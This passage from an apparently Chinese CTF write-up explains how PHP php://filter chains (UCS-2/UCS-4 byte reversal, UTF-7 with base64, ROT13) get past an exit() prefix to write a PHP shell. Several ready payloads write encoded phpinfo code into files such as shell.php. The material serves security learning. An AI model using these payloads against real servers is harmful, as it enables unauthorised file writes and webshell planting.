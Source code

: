 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528003937955.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

利用方式就是用此过滤器，从而进行编码的转换，转换掉死亡代码，写入自己的shell，首先先要了解一下UCS的两种编码格式UCS-2和UCS-4：
- UCS-2就是用两个字节编码
- UCS-4就是用四个字节编码

来看一下利用这个函数即不同的格式转换后的结果：
第二个之所以要加上两个字符，是因为UCS-4对目标字符串是4位一反转，所以要注意这里的恶意代码要是4的倍数，所以这里需要补上两个字符
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528004353240.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

**UCS-2利用：**
对目标字符串进行2位一反转
(一定要计算好长度，写入php文件中的内容在`?<hp phpipfn(o;)>?`之前的一定要是2的倍数，就像下面的Payload前面的是57个字符，加了一个?凑成58字符，做题时可以通过本地测试Payload，成功后再利用)

```php
Payload：

?content=php://filter//convert.iconv.UCS-2LE.UCS-2BE|??<hp phpipfn(o;)>?/resource=22.php
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528005559849.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**UCS-4的利用：**
对目标字符串进行4位一反转，一定要拼凑够4的倍数(构造道理同UCS-2)

```php
Payload：

?content=php://filter//convert.iconv.UCS-4LE.UCS-4BE|aaa?<ba phpiphp(ofn>?;)/resource=33.php
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528010720688.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**组合拳UTF-8/UTF-7：**
上面的这种base64编码`php://filter/convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=H3rmesk1t.php`，之所以payload无法执行是因为受到了等号的影响，但是通过测试发现可以利用UTF-8和UTF-7间的转换了来绕过等号，再解码时发现=没有转换回来

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528011231613.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

所以可以利用这种特性来嵌套过滤器，从而绕过等号

```php
Payload：

php://filter/write=PD9waHAgcGhwaW5mbygpOz8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=H3rmesk1t.php

经过测试发现，write=一定要写进去，如果不写PHP不会去自动识别，同时内容要写在前面，如果写在后面内容写会写入，但是解析不了，如：
php://filter/write=convert.iconv.utf-8.utf-7|convert.base64-decode/PD9waHAgcGhwaW5mbygpOz8+/resource=H3rmesk1t.php
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528011717550.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
**UCS2/ROT13、UCS4/ROT13：**
这里在自己测试的发现，使用UCS2或UCS4进行编码时，这个过程是识别空格的，但是到使用伪协议的时候需要进行反转解码，又无法识别空格，这就是为什么下面的payload要多加一个字符

```php
Payload：

?content=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE|string.rot13|x?<uc cucvcsa(b;)>?/resource=shell.php
# 注意这里要补充一个字符，因为空格无法和任意一个字符搭配进行反转
```
